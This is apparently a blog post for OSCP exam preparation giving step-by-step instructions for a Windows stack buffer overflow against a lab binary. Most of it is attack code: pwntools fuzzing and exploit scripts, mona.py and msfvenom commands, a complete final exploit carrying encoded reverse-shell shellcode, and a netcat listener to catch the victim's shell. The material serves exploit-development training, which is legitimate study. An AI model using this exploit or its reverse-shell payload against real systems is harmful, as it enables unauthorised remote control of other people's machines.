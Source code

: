 ```yaml
---
layout: post
title:  "Easy stack buffer overflow steps"
date:   2020-02-05 08:07:19
categories: [buffer-overflow,oscp-prep]
comments: true
---
```



The blog is written in the assumstion you are already familiar with mona.py and Immunity debugger. If you are not familiar check out this cool blog first. https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/
**Easy steps for smashing stack buffer overflow:**

Fuzzing --> finding offset --> Finding bad character --> RET to 'JMP ESP' --> Generating shell code

<!--more-->
#### Step 1: Fuzzing

In this step, we just need to find the buffer length or offset which crash the application and overwrite the EIP.

```python
from pwn import *
p = connect('192.168.1.8', 31337, level='error')
p.sendline('A'*1000)
p.recvline()
p.close()
```

#### Step 2: Finding the exact offset

Add working folder in mona:

`!mona config -set workingfolder C:\logs\%p`

In immunity debugger,

`!mona pc 1000` --> This will create a pattern of 1000 bytes

> **Tip:** Also remember sometimes pattern shown in the immunity debugger console may be truncated. So always copy from the log


Modify the python code
```python
from pwn import *
pattern = "" # update the pattern here that you got from mona
p = connect('192.168.1.8', 31337, level='error')
p.sendline(pattern)
p.recvline()
p.close()
```

After executing the python script take the EIP value and execute the following command to find the exact offset:

`!mona findmsp <EIP VALUE>` (or)
`!mona pattern_offset <EIP VALUE>`


#### Step 3: Finding bad characters

To find badcharacter, first we need to create bytearray.

`!mona bytearray` --> This will generate the byte array starting from \x00 to \xff

Modify the python code 

```python
from pwn import *

offset = "A"*<offset_value> # Replace the <offset_value> with the offset value that we obtained from Step 2
bytearray = "" # update the bytearray here that you got from mona
p = connect('192.168.1.8', 31337, level='error')
p.sendline(offset + 'BBBB' + bytearray)
p.recvline()
p.close()
```

Execute the python script

Compare the generated bytearray and bytearray after the BBBB end in the exe file using mona.

!mona compare -f C:\logs\dobufferoverflowgood\bytearray.bin -a <address_after_BBBB>

Now this will display the badcharacter.

> **TIP**: \x00 will always be the bad character. Some times if the program requires some special character like new-line feed('\n'), then the corresponding hex value will also be added to the badcharacter list.

#### Step 4: "RET to JMP ESP"

This step is important to control the flow of the program. We need to find the `JMP ESP ` statement in the program and also its address should not contain the bad characters.

`!mona jmp -r esp -cpb "\x00\x0A" ` (or)

`msf-nasm_shell` and find the hex value of `JMP ESP` which is `\xff\xe4`

Then execute the command
`!mona find "\xff\xe4" -m <your.exe>`

Add the value in little endianess format to the python program .


#### Step 5: Generating the shell code

This is the final step. Use msfvenom to generate shell code.

`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f c -a x86 -b "\x00\x0A"`

So our final python program look like this for the binary dostackbufferoverflow.exe

```python
from pwn import *

#offset = 146
#badchar = \x00\x0a
#jmpesp = 080414c3
nops = "\x90"
offset = "A"*146

shellcode = (
"\xba\x84\xf5\xee\x0c\xda\xd9\xd9\x74\x24\xf4\x5f\x29\xc9\xb1"
"\x52\x83\xc7\x04\x31\x57\x0e\x03\xd3\xfb\x0c\xf9\x27\xeb\x53"
"\x02\xd7\xec\x33\x8a\x32\xdd\x73\xe8\x37\x4e\x44\x7a\x15\x63"
"\x2f\x2e\x8d\xf0\x5d\xe7\xa2\xb1\xe8\xd1\x8d\x42\x40\x21\x8c"
"\xc0\x9b\x76\x6e\xf8\x53\x8b\x6f\x3d\x89\x66\x3d\x96\xc5\xd5"
"\xd1\x93\x90\xe5\x5a\xef\x35\x6e\xbf\xb8\x34\x5f\x6e\xb2\x6e"
"\x7f\x91\x17\x1b\x36\x89\x74\x26\x80\x22\x4e\xdc\x13\xe2\x9e"
"\x1d\xbf\xcb\x2e\xec\xc1\x0c\x88\x0f\xb4\x64\xea\xb2\xcf\xb3"
"\x90\x68\x45\x27\x32\xfa\xfd\x83\xc2\x2f\x9b\x40\xc8\x84\xef"
"\x0e\xcd\x1b\x23\x25\xe9\x90\xc2\xe9\x7b\xe2\xe0\x2d\x27\xb0"
"\x89\x74\x8d\x17\xb5\x66\x6e\xc7\x13\xed\x83\x1c\x2e\xac\xcb"
"\xd1\x03\x4e\x0c\x7e\x13\x3d\x3e\x21\x8f\xa9\x72\xaa\x09\x2e"
"\x74\x81\xee\xa0\x8b\x2a\x0f\xe9\x4f\x7e\x5f\x81\x66\xff\x34"
"\x51\x86\x2a\x9a\x01\x28\x85\x5b\xf1\x88\x75\x34\x1b\x07\xa9"
"\x24\x24\xcd\xc2\xcf\xdf\x86\x2c\xa7\xde\x50\xc5\xba\xe0\x4d"
"\x49\x32\x06\x07\x61\x12\x91\xb0\x18\x3f\x69\x20\xe4\x95\x14"
"\x62\x6e\x1a\xe9\x2d\x87\x57\xf9\xda\x67\x22\xa3\x4d\x77\x98"
"\xcb\x12\xea\x47\x0b\x5c\x17\xd0\x5c\x09\xe9\x29\x08\xa7\x50"
"\x80\x2e\x3a\x04\xeb\xea\xe1\xf5\xf2\xf3\x64\x41\xd1\xe3\xb0"
"\x4a\x5d\x57\x6d\x1d\x0b\x01\xcb\xf7\xfd\xfb\x85\xa4\x57\x6b"
"\x53\x87\x67\xed\x5c\xc2\x11\x11\xec\xbb\x67\x2e\xc1\x2b\x60"
"\x57\x3f\xcc\x8f\x82\xfb\xec\x6d\x06\xf6\x84\x2b\xc3\xbb\xc8"
"\xcb\x3e\xff\xf4\x4f\xca\x80\x02\x4f\xbf\x85\x4f\xd7\x2c\xf4"
"\xc0\xb2\x52\xab\xe1\x96"
)
p = connect('192.168.1.8', 31337, level='error')
p.sendline(offset + '\xc3\x14\x04\x08' + nops*20 + shellcode)
p.recvline()

#print('Byte sent ',length)
p.close()
```

Spawn a listner to get shell of the victim machine

`nc -nlvp 4444`



